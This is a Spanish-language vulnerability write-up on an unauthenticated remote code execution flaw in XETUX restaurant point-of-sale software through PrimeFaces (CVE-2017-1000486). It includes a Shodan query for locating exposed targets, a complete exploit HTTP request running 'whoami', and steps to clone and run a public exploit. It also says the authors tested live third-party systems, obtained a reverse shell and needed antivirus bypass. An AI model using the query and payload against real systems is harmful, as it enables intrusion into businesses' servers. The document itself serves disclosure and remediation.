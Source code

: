 # De la Mesa al Código: Un Viaje a Través de la Vulnerabilidad RCE en POS para Restaurantes

En esta oportunidad nos encontramos por casualidad con una vulnerabilidad presente en varias aplicaciones de POS para restaurantes [XETUX](https://www.xetux.com/pa/), la cual es una solución para monitoreo  y automatización de restaurantes.  En panamá es una herramienta ampliamente utilizada por varios restaurantes.

La vulnerabilidad presente es una RCE (remote code execution), que permite atacantes ejecutar códigos de manera no autenticada y ganar privilegios en el objetivo.

![2](img/2.png)

##### 1. Enumeración 

Una vez descubrimos que la existencia de una librería presente en la aplicación de Xetux, la librería en cuestión es llamada primefaces, encargada de generar pdf, decidimos realizar una búsqueda en shodan para identificar posibles objetivos

```
http.title:"@XETUX" country:PA
```

La búsqueda arrojo 40 resultados y 334 en el mundo

![1](img/1.png)

Procedemos a comprobar la vulnerabilidad en uno de los objetivos que no se encontraban en Panamá, al analizar los resultados el backend 

![3](img/3.png)

Podemos observar que la aplicación ha sido instalada con todos los privilegios **nt authoriy\system**, vamos a explicar lo que sucede a continuación:

La aplicación esta usando un apache tomcat como server, para el backend se utiliza java, en la aplicación usan una librería o un plugin de terceros llamados Primefaces, la ruta con el problema es el endpoint **javax.faces.resource/dynamiccontent.properties.xhtml**

Al buscar sobre dicha librería encontramos una [vulnerabilidad](https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix), Primefaces carga contenido dinámico de la siguiente manera

```html
/javax.faces.resource/dynamiccontent.properties.jsf?ln=primefaces&pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl&forcereload=1523006610695&pfdrid_c=true
```

El problema se encuentra en el parámetro **pdfid**

`pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl`

El valor del parametro va cifrado y no hay manera de validar si la petición será descifrada correctamente, desafortunadamente sino modifican los valores de la llave por defecto se pueden solicitar la generación de una default key, por lo que afortunadamente para nosotros todas las pruebas realizadas mantenían la lleve por defecto.

De igual manera se podría realizar un ataque Padding Oracle Attack y obtener las llave con la Herramienta Padbuster. A continuación compartimos la solicitud 

```html
POST /xc-one-pos/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: ip:9090
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1643

pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=whoami
```

##### 2. Reverseshell

Como mencionamos anteriormente la librería que contiene el RCE es Primefaces la cual tiene un exploit público [CVE-2017-1000486](https://github.com/pimps/CVE-2017-1000486)

Probaremos la vulnerabilidad bajando el exploit 

```shell
git clone https://github.com/pimps/CVE-2017-1000486.git
cd CVE-2017-1000486
pip3 install -r requirements.txt
```

Ejecutamos el exploit

![4](img/4.png)

El mismo nos va arrojar una llave y la petición 

![5](img/5.png)

Nos devolverá el resultado del comando 

![6](img/6.png)

Ahora vamos a proceder a obtener la shell reversa, debemos destacar que algunos targets tenían el AV activado y más de una solución de seguridad por lo que se debe realizar el bypass correspondiente. No procederemos a demostrar las técnicas de bypass, pero mostramos en la siguiente imagen el acceso al server:

![7](img/7.png)

##### 3. Consideraciones Finales

- Es importante destacar que la falla no solamente aplica al software Xetux, la misma esta en la librería Primefaces se encuentra en otras aplicaciones como **MaxView Storage Manager** y **DOCBOX**. 

- Los fix para la vulnerabilidad se encuentran hace años puesta el mismo es del 2017, se recomienda actualizar el primefaces.

- El acceso al endpoint es sin autenticación por lo que cualquiera puede realizar peticiones, por lo que se debe validar si las peticiones son válidas.

- Si utiliza alguna de las aplicaciones mencionados compartimos el repositorio de nuclei con el que pueden comprobar si son vulnerables https://gitlab.com/t0adsec/nuclei-templates

- Responsablemente hemos informado a los proveedores de la app en sus respectivos países, no obstante a la fecha no hemos recibido contacto de parte de ellos.

  

##### 4. Referencias

- *XETUX 软件 dynamiccontent.properties.xhtml 远程代码执行漏洞-CSDN博客*. (s. f.). https://blog.csdn.net/holyxp/article/details/134402720
- Gobysec. (s. f.). *GobyVuls/GobyVuls-Document.md at master · gobysec/GobyVuls*. GitHub. https://github.com/gobysec/GobyVuls/blob/master/GobyVuls-Document.md
- Lindner, S. (2018, 26 abril). *PrimeFaces Expression Language Remote Code Execution fix*. illucIT Software GmbH. https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix